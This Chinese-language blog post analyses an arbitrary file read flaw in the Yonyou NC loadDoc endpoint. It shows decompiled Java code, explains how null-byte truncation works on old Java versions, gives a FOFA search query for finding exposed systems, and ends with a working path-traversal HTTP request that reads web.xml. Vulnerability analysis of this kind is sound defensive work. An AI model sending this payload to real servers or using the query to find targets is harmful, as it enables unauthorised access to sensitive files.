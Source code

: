 # 漏洞简介

[用友](https://mrxn.net/tag/用友) NC 是一种商业级的企业资源规划，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，基于云原生架构，深度应用新一代数字技术，打造开放、 互联、融合、智能的一体化云平台，支持公有云、混合云、专属云的灵活部署模式。聚焦数字化管理、数字化经营、数字化平台等三大企业数字化转型战略方向，提供涵盖数字营销、智能制造、财务共享、人力共享与协同，智慧采购、数字中台等18大解决方案，助力大型企业全面落地数字化和业务流程优化。用友NC loadDoc 接口处 ws 参数存在[文件读取](https://mrxn.net/tag/文件读取)漏洞，攻击者可以利用该[漏洞](https://mrxn.net/tag/漏洞)读取设备上任意文件内容，造成敏感信息泄露。

# 影响版本

# fofa语法

> ```
> icon_hash="1085941792" || app="用友-UFIDA-NC"
> ```

# 漏洞分析

直接看 `LoadDocAction.java` 里有关 `LoadDocAction` 的实现逻辑

```java
package nc.uap.ws.console.action;

import java.io.IOException;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import nc.uap.ws.console.action.IAction;
import nc.uap.ws.console.config.Config;
import nc.uap.ws.console.fault.Fault;
import nc.uap.ws.console.fault.Faults;
import nc.uap.ws.console.helper.DocHelper;

public class LoadDocAction
implements IAction {
    @Override
    public Faults execuse(HttpServletRequest req, HttpServletResponse resp) {
        Faults faults = new Faults();
        String ws = req.getParameter("ws");
        if (ws == null || ws.equals("")) {
            faults.add(new Fault(0, "ws param need to be setted"));
            return faults;
        }
        DocHelper manager = new DocHelper(Config.docDir);
        try {
            String doc = manager.loadDoc(ws);
            resp.setStatus(200);
            resp.getWriter().write(doc);
        }
        catch (IOException e) {
            faults.add(new Fault(80, e.getMessage()));
            return faults;
        }
        return faults;
    }
}
```

可以看到 获取 `ws` 参数，直接带入 `loadDoc` 方法，跟进看其实现

```java
package nc.uap.ws.console.helper;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.FileReader;
import java.io.IOException;

public class DocHelper {
    private String DocDir;

    public DocHelper(String DocDir) {
        this.DocDir = DocDir;
    }

    public String loadDoc(String ws) throws IOException {
        StringBuilder builder = new StringBuilder();
        BufferedReader br = null;
        try {
            String line;
            File file = new File(new File(this.DocDir), ws + ".txt");
            if (!file.exists()) {
                file.createNewFile();
            }
            FileReader fr = new FileReader(file);
            br = new BufferedReader(fr);
            while ((line = br.readLine()) != null) {
                builder.append(line);
            }
        }
        catch (IOException e) {
            throw e;
        }
        finally {
            if (br != null) {
                br.close();
                br = null;
            }
        }
        return builder.toString();
    }
```

用户可控的 `ws` 参数直接拼接文件路径，未对输入进行合法性校验，如果后端java版本低于7，就通过%00截断绕过 txt 后缀限制，从而达到任意文件读取的目的。

关于 Java 中 %00 (NULL byte) 截断漏洞的版本信息如下:

受影响的 Java 版本范围:

- Java 7 以下所有版本(Java SE 7 之前)
- Java 6 所有版本(包括 Java SE 6 所有更新版本)
- Java 5 所有版本
- Java 1.4 及更早版本

不受影响的 Java 版本:

- Java 7 及以上版本(Java SE 7+)已修复了这个问题

其实这个漏洞和之前已经披露的 `saveDoc` 任意文件上传漏洞都在同一个文件里，只不过最近才披露这个 `loadDoc` 任意[文件读取漏洞](https://mrxn.net/tag/文件读取)罢了。

# 

```http
POST /uapws/loadDoc.ajax HTTP/1.1
Host: nc.mrxn.net
Content-Type: application/x-www-form-urlencoded

ws=../../WEB-INF/web.xml%00
```

成功读取到 `web.xml` 文件